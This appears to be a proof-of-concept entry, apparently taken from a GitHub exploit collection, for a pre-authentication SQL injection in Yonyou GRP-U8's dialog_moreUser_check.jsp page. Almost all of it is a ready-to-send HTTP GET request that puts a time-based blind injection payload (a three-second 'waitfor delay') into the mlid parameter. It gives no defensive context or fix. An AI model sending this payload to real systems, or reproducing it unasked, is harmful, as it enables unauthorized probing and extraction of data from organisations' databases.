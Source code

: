 # GRPU8_dialog_moreUser_check_sqli

from: https://github.com/wy876/POC/blob/main/%E7%94%A8%E5%8F%8BGRP-U8-dialog_moreUser_check.jsp%E5%89%8D%E5%8F%B0SQL%E6%B3%A8%E5%85%A5.md

2024.4.29 @2

```
GET /u8qx/dialog_moreUser_check.jsp?mlid=';waitfor+delay+'0:0:3'-- HTTP/1.1
Host: 
Cache-Control: max-age=0
DNT: 1
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/110.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: Hm_lvt_fd4ca40261bc424e2d120b806d985a14=1677835116; JSESSIONID=881972DA273F6E95D532FE7B5E5C488F
Connection: close
```
